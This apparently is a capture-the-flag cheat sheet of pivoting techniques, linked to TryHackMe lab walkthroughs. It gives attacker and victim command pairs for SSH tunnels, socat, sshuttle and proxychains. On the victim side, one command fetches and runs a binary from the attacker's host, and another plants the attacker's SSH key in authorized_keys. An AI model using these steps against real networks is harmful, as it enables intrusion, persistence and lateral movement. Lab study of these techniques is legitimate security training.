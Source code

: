 # Lateral Movement and Pivoting

## SSH Proxy Chaining

### SSH Local Port Forwarding

**Examples**

[game-zone.md](../../walkthroughs/tryhackme/game-zone.md "mention")[internal.md](../../walkthroughs/tryhackme/internal.md "mention")[kitty.md](../../walkthroughs/tryhackme/kitty.md "mention")

**Local port forwarding** allows us to "pull" a port from an SSH server into the SSH client. In our scenario, this could be used to take any service available in our attacker's machine and make it available through a port on PC-1. That way, any host that can't connect directly to the attacker's PC but can connect to PC-1 will now be able to reach the attacker's services through the pivot host.

Using this type of port forwarding would allow us to run reverse shells from hosts that normally wouldn't be able to connect back to us or simply make any service we want available to machines that have no direct connection to us.

<figure><img src="../../.gitbook/assets/image (100) (1).png" alt=""><figcaption></figcaption></figure>

Allows us to gain access to the service running on port 10000 from Kali that was only accessible to the victim from their machine.

**Kali**

```
ssh -L 10000:localhost:10000 $USERNAME@$VICTIM
Password: $ASSWORD
```

### SSH Remote Port Forwarding

**Examples**

&#x20;[#ssh-remote-port-forwarding](../../walkthroughs/tryhackme/lateral-movement-and-pivoting.md#ssh-remote-port-forwarding "mention")[#bonus-port-forwarding](../../walkthroughs/tryhackme/linux-local-enumeration.md#bonus-port-forwarding "mention")

In our example, let's assume that firewall policies block the attacker's machine from directly accessing port 3389 on the server. If the attacker has previously compromised PC-1 and, in turn, PC-1 has access to port 3389 of the server, it can be used to pivot to port 3389 using remote port forwarding from PC-1. **Remote port forwarding** allows you to take a reachable port from the SSH client (in this case, PC-1) and project it into a **remote** SSH server (the attacker's machine).

As a result, a port will be opened in the attacker's machine that can be used to connect back to port 3389 in the server through the SSH tunnel. PC-1 will, in turn, proxy the connection so that the server will see all the traffic as if it was coming from PC-1:

<figure><img src="../../.gitbook/assets/image (110) (1).png" alt=""><figcaption></figcaption></figure>

Referring to the previous image, to forward port 3389 on the server back to our attacker's machine, we can use the following command on PC-1:

<figure><img src="../../.gitbook/assets/image (112) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
useradd tunneluser
passwd tunneluser
```

**/etc/ssh/sshd\_config**

If it's not working, it could because these settings aren't set

```
AllowTcpForwarding yes
GatewayPorts yes
```

**Victim**

```
ssh tunneluser@$KALI -R 8888:thmdc.za.tryhackme.com:80 -L *:1990:127.0.0.1:1990 -L *:1029:127.0.0.1:1029 -N
```



## Socat

If there is a website running on port 6666 that can only be seen on the Victims side locally, we can forward it so we can see it on Kali. Below will allows us to see the website on our Kali instance on port 7777

**Examples**

[#port-forwarding-and-finding-flag](../../walkthroughs/tryhackme/magician.md#port-forwarding-and-finding-flag "mention")[#bonus-port-forwarding](../../walkthroughs/tryhackme/linux-local-enumeration.md#bonus-port-forwarding "mention")

**Kali**

```
wget https://github.com/aledbf/socat-static-binary/releases/download/v0.0.1/socat-linux-amd64
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd /tmp
wget http://$KALI:81/socat-linux-amd64
chmod +x socat-linux-amd64 
./socat-linux-amd64  tcp-listen:7777,reuseaddr,fork tcp:localhost:6666
```

## sshuttle

**Examples**

[internal.md](../../walkthroughs/tryhackme/internal.md "mention")

**Kali**

```
apt install sshuttle
sshuttle -r $USERNAME@$VICTIM 127.0.0.1/24
Password: $PASSWORD
```

### SSH

**Examples**

[chill-hack.md](../../walkthroughs/tryhackme/chill-hack.md "mention")[vulnnet-internal.md](../../walkthroughs/tryhackme/vulnnet-internal.md "mention")

**Kali**

```
ssh-keygen -t rsa
cat /root/.ssh/id_rsa.pub
```

**Victim**

copy paste id\_rsa.pub from Kali to the Victim server

```
copy id_rsa.pub to /home/$VICTIM/.ssh/authorized_keys
```

**Kali**

```
vi /etc/proxychains.conf
```

**proxychains.conf**

```
socks4 	127.0.0.1 9050
```

**Kali**

```
ssh -D 9050 $USERNAME@VICTIM
```

<figure><img src="../../.gitbook/assets/image (42) (2).png" alt=""><figcaption></figcaption></figure>



I can now see the webpage from Kali but no login credentials to use.

<figure><img src="../../.gitbook/assets/image (40) (4).png" alt=""><figcaption></figcaption></figure>



